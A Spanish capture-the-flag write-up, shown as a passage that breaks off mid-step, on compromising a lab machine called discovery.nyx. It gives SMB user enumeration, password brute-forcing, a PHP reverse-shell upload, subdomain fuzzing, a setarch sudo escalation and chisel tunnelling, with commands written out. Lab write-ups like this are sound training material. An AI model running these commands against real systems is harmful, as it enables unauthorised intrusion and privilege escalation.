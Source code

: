 Hacemos el escaneo con nmap:
![[Pasted image 20231229113216.png]]
Hay una herramienta llamada rpcclient que nos permite enumerar usuarios existentes dentro de la máquina víctima si vemos que tiene abierto el puerto 445:
```bash
rpcclient -U "" -N 192.168.0.54
querydispinfo and enumdomusers
```
![[Pasted image 20231229113412.png]]
También añadimos el posible dominio de discovery.nyx:
![[Pasted image 20231229120624.png]]
Y vemos que funciona:
![[Pasted image 20231229120309.png]]
Ahora que tenemos dos usuarios, probamos en hacer un ataque de fuerza bruta con estos usuarios dentro de SMB en busca de alguna contraseña con hydra o metasploit:
![[Pasted image 20231229114418.png]]
Una vez tenemos las credenciales, podemos acceder a los recursos compartidos con smbmap de forma autenticada:
```bash
smbmap -u "ken" -p "kenken" -H 192.168.0.54
```
![[Pasted image 20231229114808.png]]
Si accedemos el recurso de ken, donde tenemos permisos de escritura y lectura, nos encontramos con un index.html:
```bash
smbmap -u "ken" -p "kenken" -H 192.168.0.54 -r ken
```
![[Pasted image 20231229114903.png]]
Y suponemos que este index.html está conectado con el navegador:
![[Pasted image 20231229114940.png]]
En este punto, podemos probar en subir una webshell pero no conecta, y si hacemos fuzzing por este puerto 80 tampoco encontramos nada, por lo que pasamos a enumerar el puerto 81, que es igual al 80:
![[Pasted image 20231229115246.png]]
Y vemos el directorio under_construction:
![[Pasted image 20231229115313.png]]
Pero no tenemos acceso:
![[Pasted image 20231229120341.png]]
Una vez en este punto, probamos en realizar distintas peticiones HTTP y con curl mediante el método POST podemos encontrar un dominio nuevo:
```bash
curl -X POST "http://discover.nyx:81/under_construction/"
```
![[Pasted image 20231229120832.png]]
Lo añadimos al /etc/hosts:
![[Pasted image 20231229121620.png]]
Y ahora con smbclient subimos una weverse shell en php para intentar probar si el subdominio de todiscover.nyx interpreta la webshell:
```bash
smbclient //192.168.0.54/ken -U ken%kenken -c "put pwned.php"
```
Y con smbmap comprobamos que se ha subido:
![[Pasted image 20231229121337.png]]
Pero vemos que no:
```bash
http://todiscover.nyx/pwned.php
```
![[Pasted image 20231229121649.png]]
Pero podemos probar en hacer una búqeda de subdominios dentro del todiscover y apuntando contra el archivo que hemos subido anteriormente:
```bash
wfuzz -c --hc=404 --hl=7 -X POST -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.todiscover.nyx" -u "http://todiscover.nyx/pwned.php"
```
![[Pasted image 20231229122345.png]]
Y al tener este nuevo subdominio de smbc, podemos probar si este dominio interpreta nuestro archivo malicioso en php:
![[Pasted image 20231229122539.png]]
```bash
http://smbc.todiscover.nyx/pwned.php
```
Accedemos desde el navegador:
![[Pasted image 20231229122601.png]]
Y recibimos la reverse shell:
![[Pasted image 20231229122614.png]]
Y al ejecutar sudo -l nos encontramos con este binario:
![[Pasted image 20231229122914.png]]
Investigamos el binario de setarch en gtfobins y vemos como utilizarlo para pivotar al usuario takeshi en este caso:
![[Pasted image 20231229122953.png]]
```bash
sudo -u takeshi /usr/bin/setarch $(arch) /bin/sh
```
Y somos el usuario takeshi:
![[Pasted image 20231229123042.png]]
Y ahora si ejecutamos otra vez sudo -l nos encontramos con que podemos ejecutar pydoc3 como sudo:
![[Pasted image 20231229123123.png]]
Al ejecutarlo vemos estas instrucciones:
![[Pasted image 20231229123148.png]]
Si levantamos un servidor HTTP con este binario, vemos que se levanta pero en local:
![[Pasted image 20231229123614.png]]
Por tanto tenemos que traernos este puerto a la máquina atacante con chisel, por lo que lo descargamos:
![[Pasted image 20231229123809.png]]
Y lo compartimos con la máquina víctima:
![[Pasted image 20231229123821.png]]
![[Pasted image 20231229123830.png]]
Una vez hecho esto, ejecutamos chisel en la máquina atacante para estar a la escucha:
```bash
chisel server --reverse -p 8888
```
![[Pasted image 20231229124010.png]]
Y ahora en la máquina víctima, ejecutamos primero el comando para levantar el servicio y después aplicamos un operador lógico && para hacer el port forwarding con chisel:
